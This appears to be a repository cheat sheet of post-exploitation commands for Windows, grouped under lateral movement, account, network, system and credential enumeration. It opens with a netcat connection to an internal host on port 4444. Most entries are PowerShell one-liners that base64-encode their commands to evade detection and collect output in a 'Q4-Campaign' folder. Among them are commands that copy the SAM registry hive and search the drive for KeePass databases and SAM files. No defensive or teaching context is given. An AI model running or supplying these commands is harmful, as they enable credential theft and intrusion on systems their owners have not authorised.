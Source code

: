 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Current-User.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'whoami /groups'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-User-Groups.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalUser'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-Users.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-LocalGroupMember Administrators | Where-Object { $_.PrincipalSource -eq "Local" } | Select-Object Name'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Local-Admins.txt"`

## Get Installed Applications:

### 32 Bit:

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\32BitPrograms.txt"`

### 64 Bit:

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname,DisplayVersion'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\64BitPrograms.txt"`

## Network Enumeration

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-EventLog -LogName security -Newest 500 | where {$_.EventID -eq 4624} | format-list -property * | findstr “Address”'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Security-Event-4624.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'route print'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\RoutePrint.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'ipconfig /all'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\IpConfig.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'netstat -ano'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\NetStat.txt"`

## Local System Enumeration

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-Process'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Get-Process.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination '.\Q4-Campaign\SAM-Copy'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'systeminfo'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\SystemInfo.txt"`

## Credential Enumeration

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Get-KeyPass-DBs.txt"`

- `$folderPath = ".\Q4-Campaign"; if (-not (Test-Path -Path $folderPath)) { New-Item -ItemType Directory -Path $folderPath }; $command = 'Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue'; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand | Out-File -FilePath ".\Q4-Campaign\Find-SAM-DB.txt"`